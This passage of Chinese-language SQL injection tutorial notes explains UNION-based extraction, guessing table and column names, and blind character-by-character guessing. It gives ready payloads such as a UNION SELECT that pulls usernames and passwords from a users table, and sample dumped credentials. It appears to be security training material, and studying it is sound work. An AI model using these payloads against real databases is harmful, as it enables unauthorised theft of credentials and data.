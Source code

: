 ### union注入攻击检索感兴趣的数据
当确定了原始查询的返回列列数和哪一列可以兼容字符串时，我们就可以从这个位置检索感兴趣的数据。
假设：

>原始查询返回两列，每一列都兼容字符串类型  
>注入点是 WHERE 子句中带引号的字符串  
>数据库中存在一个包含 username 和 password 字段的 users 表  
>这种情况下，我们可以提交如下 payload 从 users 表中获取内容：  

' UNION SELECT username, password FROM users--

执行此攻击所需的关键信息是存在一个名为 users 的表，该表有两列，分别名为 username 和 password。
没有这些信息，我们需要猜表名和列名。
实际上，所有现代数据库都提供数据库结构查询方法，确定数据库包含哪些表和列的方法。比如MySQL5.0以上的information-schema表  

## 0X03 猜表名列名
### 1.猜表名
````sql
' and (select count(*) from 表名)!=0--        --!=也可以替换成<>0  
' and exists select * from 表名  
' and 表名.已知的列名 is NULL --              --当前表名需要先知道列名  
````
### 2.猜列名
````sql
' and column is NULL --                      --猜当前列名    
' and (select count(列名) from 表名)<>0  
' and exist (select 列名 from 表名)  
````
### 3.猜值长度
' and select top 1 len(已知的列名) from 表名 <5   
//猜长度小于5 top 1返回1条结果 Mysql是limit 1  
### 4.知道长度后猜具体内容
````sql
' and select top 1 ord(mid(列名,开始位置,1)) from admin > ascii码  
# mid(column_name,start[,length])用于提取字符 ord()返回第一个字符的ascii值
#截取字符串还可以使用substr(string,start,length)和substring() //oracle中没有mid()
#从左截取可以使用left(string,length)
#ord是mysql中的 其他的可以用ascii() access中用asc()
````

## 0x04 从单列中返回多列值
方法是拼接，把多个值拼接在一起可以从单列中返回多列的值，理想情况下，还可以通过分隔符来区分拼接的多个值。  

>例如，在 Oracle 中可以提交如下的 payload：  
' UNION SELECT username || '~' || password FROM users--   
'||' 是 Oracle 中的字符串连接运算符。注入查询将 username 和 password 连接在一起，通过 '~' 符号做分隔符。  
返回值：  
...  
administrator~s3cure  
wiener~peter  
carlos~montoya  
...   
